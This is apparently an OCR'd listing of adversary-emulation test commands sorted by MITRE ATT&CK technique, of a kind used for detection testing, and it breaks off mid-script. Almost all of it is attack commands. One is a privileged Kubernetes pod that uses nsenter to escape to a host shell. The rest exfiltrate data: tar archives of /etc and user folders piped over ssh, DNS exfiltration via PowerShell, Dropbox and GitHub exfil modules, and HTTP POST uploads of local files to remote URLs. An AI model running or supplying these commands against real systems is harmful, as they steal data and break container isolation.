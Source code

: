 ##T1611: Escape to Host
* kubectl --context kind-atomic-cluster run atomic-nsenter-escape-pod --restart=Never -ti --rm --image alpine --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"securityContext":{"privileged":true}}]}}'
##T1585: Establish Accounts
##T1546: Event Triggered Execution
##T1480: Execution Guardrails
##T1048: Exfiltration Over Alternative Protocol
* Import-Module #{ps_module}
Invoke-DNSExfiltrator -i #{ps_module} -d #{domain} -p atomic -doh #{doh} -t #{time} #{encoding}
* ssh target.example.com "(cd /etc && tar -zcvf - *)" > ./etc.tar.gz
* Import-Module #{ps_module}
Invoke-DNSExfiltrator -i #{ps_module} -d target.example.com -p #{password} -doh #{doh} -t #{time} #{encoding}
* tar czpf - /Users/* | openssl des3 -salt -pass #{password} | ssh atomic@#{domain} 'cat > /Users.tar.gz.enc'
* Import-Module #{ps_module}
Invoke-DNSExfiltrator -i #{ps_module} -d #{domain} -p #{password} -doh google -t #{time} #{encoding}
* tar czpf - /Users/* | openssl des3 -salt -pass atomic | ssh #{user_name}@#{domain} 'cat > /Users.tar.gz.enc'
* tar czpf - /Users/* | openssl des3 -salt -pass #{password} | ssh #{user_name}@target.example.com 'cat > /Users.tar.gz.enc'
* Import-Module $env:Temp\dnsexfil.ps1
Invoke-DNSExfiltrator -i $env:Temp\dnsexfil.ps1 -d #{domain} -p #{password} -doh #{doh} -t #{time} #{encoding}
* powercmd.exe /c/exfiltration/exfil_dropbox
* exfiltration/Invoke_ExfilDataToGitHub
##T1041: Exfiltration Over C2 Channel
* [System.Net.ServicePointManager]::Expect100Continue = $false
$filecontent = Get-Content -Path C:\Users\$env:UserName\LineNumbers.txt
Invoke-WebRequest -Uri #{destination_url} -Method POST -Body $filecontent -DisableKeepAlive
* [System.Net.ServicePointManager]::Expect100Continue = $false
$filecontent = Get-Content -Path #{filepath}
Invoke-WebRequest -Uri example.com -Method POST -Body $filecontent -DisableKeepAlive
* $ErrorActionPreference = 'Stop';
$fieldName = '#{host.dir.compress}';
$filePath = '#{host.dir.compress}';
$url = "$RANDOMURL$/file/upload";

Add-Type -AssemblyName 'System.Net.Http';

$client = New-Object System.Net.Http.HttpClient;
$content = New-Object System.Net.Http.MultipartFormDataContent;
$fileStream = [System.IO.File]::OpenRead($filePath);
$fileName = [System.IO.Path]::GetFileName($filePath);
$fileContent = New-Object System.Net.Http.StreamContent($fileStream);
$content.Add($fileContent, $fieldName, $fileName);
$client.DefaultRequestHeaders.Add("X-Request-Id", $env:COMPUTERNAME + '-#{paw}');
$client.DefaultRequestHeaders.Add("User-Agent","Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36");
